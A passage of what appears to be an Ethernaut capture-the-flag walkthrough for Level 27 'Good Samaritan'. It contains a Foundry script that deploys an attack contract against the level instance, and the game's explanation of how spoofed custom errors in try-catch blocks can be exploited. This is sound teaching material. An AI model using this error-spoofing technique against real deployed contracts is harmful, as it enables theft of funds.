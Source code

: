 ```solidity
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/5baa0af7e2d29b6e478e314d0e41eb757bf5923f/script/Level27.s.sol" %}

{% code title="script/Level27.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {AttackContract} from "src/Level27.sol";

// ================================================================
// │                    LEVEL 27 - GOOD SAMARITAN                 │
// ================================================================
interface IGoodSamaritan {
    function coin() external view returns (address coinAddress);
}

interface ICoin {
    function balances(address account) external view returns (uint256);
}

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        AttackContract attackContract = new AttackContract();
        attackContract.callGoodSamaritan(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Congratulations!

Custom errors in Solidity are identified by their 4-byte ‘selector’, the same as a function call. They are bubbled up through the call chain until they are caught by a catch statement in a try-catch block, as seen in the GoodSamaritan's `requestDonation()` function. For these reasons, it is not safe to assume that the error was thrown by the immediate target of the contract call (i.e., Wallet in this case). Any other contract further down in the call chain can declare the same error and throw it at an unexpected location, such as in the `notify(uint256 amount)` function in your attacker contract.
{% endhint %}

### Notes

{% embed url="https://blog.dixitaditya.com/ethernaut-level-27-good-samaritan" %}
